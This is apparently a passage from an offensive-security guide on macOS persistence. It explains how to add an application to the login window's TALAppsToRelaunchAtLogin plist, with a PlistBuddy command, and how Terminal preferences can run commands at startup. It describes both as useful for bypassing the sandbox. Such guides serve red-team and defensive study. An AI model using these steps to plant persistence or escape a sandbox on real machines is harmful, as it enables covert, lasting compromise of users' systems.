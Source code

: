 * Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)

#### Location

* **`~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist`**
  * **Trigger**: Restart reopening applications

#### Description & Exploitation

All the applications to reopen are inside the plist `~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist`

So, make the reopen applications launch your own one, you just need to **add your app to the list**.

The UUID can be found listing that directory or with `ioreg -rd1 -c IOPlatformExpertDevice | awk -F'"' '/IOPlatformUUID/{print $4}'`

To check the applications that will be reopened you can do:

```bash
defaults -currentHost read com.apple.loginwindow TALAppsToRelaunchAtLogin
#or
plutil -p ~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist
```

To **add an application to this list** you can use:

```bash
# Adding iTerm2
/usr/libexec/PlistBuddy -c "Add :TALAppsToRelaunchAtLogin: dict" \
    -c "Set :TALAppsToRelaunchAtLogin:$:BackgroundState 2" \
    -c "Set :TALAppsToRelaunchAtLogin:$:BundleID com.googlecode.iterm2" \
    -c "Set :TALAppsToRelaunchAtLogin:$:Hide 0" \
    -c "Set :TALAppsToRelaunchAtLogin:$:Path /Applications/iTerm.app" \
    ~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist
```

### Terminal Preferences

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)

#### Location

* **`~/Library/Preferences/com.apple.Terminal.plist`**
  * **Trigger**: Open Terminal

#### Description & Exploitation

In **`~/Library/Preferences`** are store the preferences of the user in the Applications. Some of these preferences can hold a configuration to **execute other applications/scripts**.

For example, the Terminal can execute a command in the Startup:

<figure><img src="../.gitbook/assets/image (676).png" alt="" width="495"><figcaption></figcaption></figure>
